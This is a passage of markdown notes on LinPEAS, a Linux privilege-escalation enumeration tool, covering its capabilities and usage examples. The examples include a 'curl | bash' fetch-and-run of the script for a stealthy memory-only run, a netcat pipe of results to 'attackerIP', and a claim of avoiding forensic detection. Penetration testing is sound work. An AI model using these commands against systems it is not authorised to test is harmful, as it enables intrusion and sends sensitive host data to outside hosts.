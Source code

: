 ***

### Core Capabilities & Workflow

* **Privilege Escalation Checks:** Probes for SUID/SGID binaries, writable files, kernel exploits, weak/crontab/service configs, dangerous capabilities, and vulnerable/outdated packages.\[5]\[1]\[3]
* **Color-Coded Output:** Clearly distinguishes critical, high, moderate, informational findings for rapid triage.\[6]
* **Focused Section Scans:** Can target specific vectors (users, procs, services, network, containers, cloud) with the `o` option.\[7]
* **Stealth/Memory Execution:** Runs directly from memory for operational stealth; can redirect output to a remote listener to avoid forensic detection.\[8]
* **Reporting & Integration:** Output is machine- and human-friendly—parse, grep, export as text for audit, report, exploit.\[7]\[9]
* **Continuous Update:** Maintained to stay current with new Linux and cloud/container vulnerabilities.\[9]

***

### Professional Usage Examples

*   Full scan and tee output interactively:

    ```bash
    linpeas.sh | tee linpeas-results/scan.txt

    ```
*   Stealth run, memory-only (no file on disk):

    ```bash
    curl -sL <https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh> | bash | tee linpeas-results/scan.txt

    ```
*   Scan only for services/cron/processes:

    ```bash
    linpeas.sh -o procs_crons_timers_srvcs_sockets | tee linpeas-results/services.txt

    ```
*   Container/Cloud enumeration:

    ```bash
    linpeas.sh -o container | tee linpeas-results/container.txt
    linpeas.sh -o cloud | tee linpeas-results/cloud.txt

    ```
*   Remote output collection for forensics/off-host review:

    ```bash
    linpeas.sh | nc attackerIP 2222

    ```

***

### Advanced Techniques & Scenarios
